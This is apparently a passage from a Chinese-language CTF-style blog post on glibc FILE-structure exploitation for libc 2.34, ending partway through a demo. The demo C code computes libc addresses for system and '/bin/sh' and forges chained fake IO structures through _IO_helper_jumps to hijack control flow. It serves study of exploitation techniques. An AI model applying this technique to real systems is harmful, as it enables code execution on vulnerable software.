 ```c
libc_hidden_def (_IO_default_xsputn)
```

### 小结

我这里好像就用到了这三个函数`_IO_default_xsputn`,`_IO_helper_overflow_1`,`_IO_helper_overflow_2`，但是没有利用到house_of_pig那条链路，所以我在想是不是我理解错了，还是说版本不对，希望有大佬看到的可以发邮箱回复本菜鸡QAQ

## Demo调试

### 源码

libc版本2.34_3.2

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
	size_t *source = malloc(0x20);
		
	
	size_t *p1 = malloc(0x420);
	
	size_t *p = malloc(0x420);
	
	size_t *p4 = malloc(0x420);

	size_t *fake_io;
	fake_io=p1-2;

	size_t put_addr = &puts;
	size_t lib_base = put_addr - 0x80ef0;
	size_t IO_list_all = lib_base + (0x7ffff7fb4660 - 0x7ffff7d9a000);
	size_t _IO_helper_jumps_addr = lib_base + (0x7ffff7fafac0 - 0x7ffff7d9a000);
	size_t sys = lib_base + (0x7ffff7deaae0 - 0x7ffff7d9a000);
	size_t bin_sh = lib_base + (0x7ffff7f71cba - 0x7ffff7d9a000);
	size_t target = lib_base + (0x7ffff7fb3040 - 0x7ffff7d9a000);
	
	*source=sys;
	
	
	*(p4+0xd8/8)=_IO_helper_jumps_addr-0xc0;	//make FAKE_IO1->_put_stream->_put_stream call _IO_default_xsputn
	*(p4+0x30/8)=bin_sh+21;			//FAKE_IO1->_put_stream->_put_stream->_IO_write_end
	*(p4+0x28/8)=bin_sh;				//FAKE_IO1->_put_stream->_put_stream->_IO_write_ptr
	
	
	
	//make fake_IO
	
	*(p+0xd8/8)=_IO_helper_jumps_addr-0xc0;	//make FAKE_IO1->_put_stream call _IO_default_xsputn
	*(p+0x30/8)=target+21;				//FAKE_IO1->_put_stream->_IO_write_end
	*(p+0x28/8)=target;				//FAKE_IO1->_put_stream->_IO_write_ptr
	*(p+0xe0/8)=p4;				//FAKE_IO1->_put_stream->_put_stream
	
	
	//First FAKE_IO1
	*(fake_io+0x28/8)=0x1;
	*(fake_io+0xd8/8)=_IO_helper_jumps_addr;
	*(fake_io+0x1c8/8)=p;		//FAKE_IO1->_put_stream
	
	//make wide_data
```